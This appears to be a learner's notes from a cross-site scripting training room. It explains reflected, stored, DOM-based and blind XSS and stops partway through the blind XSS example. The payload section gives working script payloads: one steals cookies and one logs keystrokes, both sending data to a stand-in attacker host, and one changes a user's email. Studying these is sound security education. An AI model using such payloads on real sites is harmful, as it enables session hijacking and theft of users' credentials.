 # Debrief 
XSS is based on JavaScript, and it would be helpful to know the language, but none of the covered examples are too complicated. In this room, I will learn how about different XSS types, how to create payloads, how to modify payloads to evade filters, and then end with a practical lab.


<h3> XSS Payloads </h3>
```
A payload is the JavaScript code that is to be executed on the targets computer. The intention is what is wished for the JavaScript to actually do and the modification is the changes to the code we need to make it execute as every scenario is different. 
Examples of XSS intentions 
	Proof of Concept: 
		Simplest payload where all you want to do is demonstrate that you can achieve XSS on a website. 
		<script>alert('XSS');</script>
	Session Stealing:
		Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user. 
		<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
	Key Logger:
		Acts as a key logger and tracks anything that is typed on the website and will be forwarded to a website under the hacker's control. Could be damaging if the payload was installed on accepted user logins or credit card detail
		<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
	Business Logic:
		This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like:
		<script>user.changeEmail('attacker@hacker.thm');</script> 
```

# Reflected XSS
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation. 

Example Scenario: 
	A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the error parameter in the query string is built directly into the page source. 

Potential Impact:
	The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims, getting them to execute code on their browser, potentially revealing session or customer information. 

How to test
	Every possible parameter needs to be tested, of which include Parameters in the URL query string, URL file path, and sometimes HTTP Headers.

Once some data was found that was being reflected in the web application, the JavaScript payload needs to be confirmed. Your payload will be dependent on where in the application your code is reflected.

# Stored XSS
The XSS payload is stored on the web application and then gets run when other users visit the site or web page.
For example, a blog allows comments, the blog does not check for JavaScript. If a comment is posted that contains JavaScript, this will be stored in the database, and every other user now visiting will have the JavaScript run in their browser. 
The impact may include someone stealing the user's session cookies, or performing other website actions while acting as the visiting user. 

How to test
	Need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be 
	- Comments on a blog post
	- User Profile Information
	- Website Listings
Sometimes developers think limiting values on the client side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads.
Once you've found some data which is being stored in the web application, you'll need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected.


# DOM Based XSS
DOM stands for Document Object Model and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. DOM based XSS is where the JavaScript execution happens directly in the browser, without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction. For example, a website's JavaScript gets the contents from the window.location.hash parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the website.
Potential Impact 
	Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session
How to test 
	DOM based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code.  Certain parts of the code that can access variables need to be viewed as the attacker can have control over them, such as window.location.x. When these bits of code are found, tou would then have to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as eval()

# Blind XSS
Blind Xss is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.
Example:
	A website has a contact form where you can message staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish